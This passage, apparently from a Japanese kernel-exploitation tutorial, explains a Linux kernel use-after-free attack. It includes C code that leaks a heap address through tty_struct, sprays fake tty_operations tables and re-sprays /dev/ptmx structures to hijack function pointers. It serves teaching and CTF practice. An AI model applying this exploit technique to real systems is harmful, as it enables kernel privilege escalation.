   <div class="faceicon"><img src="../img/wolf_thinking.png" alt="オオカミくん" ></div>
  <p class="says">
  　アセンブリレベルでいつページフォルトが起きるかを把握できていないと、デバッグが大変そうだね。
  </p>
</div>

KASLRとヒープアドレスのリークができれば、同様にUAF Writeを作ります。
今回もいつもどおり偽の`tty_struct`の`ops`を偽の関数テーブルに向けるのですが、今回UAFが発生するアドレスは前回リークした場所と異なる可能性があることに注意してください。リークしたヒープのアドレスは`close`で解放した`tty_struct`の場所なので、まずは偽`tty_operation`をsprayするようにしましょう。（今回は`tty_operation`と`tty_struct`を兼用します。）
```c
      case 2: {
        puts("[+] UAF write");
        /* [3-2] `blob_set`によるページフォルト */
        // 偽tty_operationをspray (リークしたkheapにかぶらせる)
        for (int i = 0; i < 0x100; i++) {
          add(buf, 0x400);
        }

...

  /* [2-1] UAF Read: tty_structのリーク (ヒープ) */
  victim = add(buf, 0x400);
  get(victim, page+0x1000, 0x400);
  unsigned long kheap = *(unsigned long*)(page + 0x1038) - 0x38;
  printf("kheap = 0x%016lx\n", kheap);
  for (int i = 0; i < 0x10; i++) close(ptmx[i]);
```
リーク済みアドレスに偽関数テーブルを用意できたら、UAF Readと同様にUAFを引き起こします。
```c
        // victimを解放し、tty_structをspray
        del(victim);
        for (int i = 0; i < 0x10; i++) {
          ptmx[i] = open("/dev/ptmx", O_RDONLY | O_NOCTTY);
          if (ptmx[i] == -1) fatal("/dev/ptmx");
        }

        // このページのデータを持つバッファ（copy_from_userで書き込む内容）
```

[^1]: 初回アクセス時にページフォルトを発生させたいので`MAP_POPULATE`を付けていません。
[^2]: 直接`printf`すると、`printf`関数内でフォルトが発生してハンドラ中の`puts`や`printf`とバッファリングのデッドロックが発生してプログラムが停止するので注意しましょう。カーネルexploitの文脈では、カーネル空間からフォルトを発生されるので気にする必要はありません。